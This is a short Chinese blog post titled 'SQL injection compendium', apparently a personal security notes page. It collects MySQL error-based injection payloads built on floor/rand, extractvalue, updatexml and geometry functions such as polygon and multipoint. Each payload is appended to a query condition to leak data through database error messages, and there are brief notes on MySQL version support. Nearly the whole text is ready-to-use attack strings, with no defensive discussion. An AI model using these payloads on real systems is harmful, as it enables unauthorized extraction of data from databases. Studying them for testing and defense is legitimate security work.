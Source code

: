 ```yaml
---
title: sql注入大全
tags:
  - web安全
categories:
  - 安全
abbrlink: 41083
date: 2018-03-21 09:26:16
---
```

# 报错注入函数

1. floor报错, Mysql5.0及以上版本都能用的报错函数：floor

   > select * from test where id=1 and (select 1 from (select count(\*),concat(user(),floor(rand(0)\*2))x from information_schema.tables group by x)a);

2. MySQL 5.1.5版本中添加了对XML文档进行查询和修改的函数

* ExtractValue()

  > select \* from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

* UpdateXML()

  > select \* from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
  >
  > ps: updatexml报错函数的结果有32位的长度限制

3. 一些函数在Mysql 5.0.中存在但是不会报错,5.1后才可以报错

* geometrycollection()

  > select \* from test where id=1 and geometrycollection((select \* from(select \* from(select user())a)b));

* multipoint()

  > select \* from test where id=1 and multipoint((select \* from(select \* from(select user())a)b));

* polygon()

  > select \* from test where id=1 and polygon((select \* from(select \* from(select user())a)b));

* multipolygon()

  > select \* from test where id=1 and multipolygon((select \* from(select \* from(select user())a)b));

* linestring()

  > select \* from test where id=1 and linestring((select \* from(select \* from(select user())a)b));

* multilinestring()

  > select \* from test where id=1 and multilinestring((select \* from(select \* from(select user())a)b));

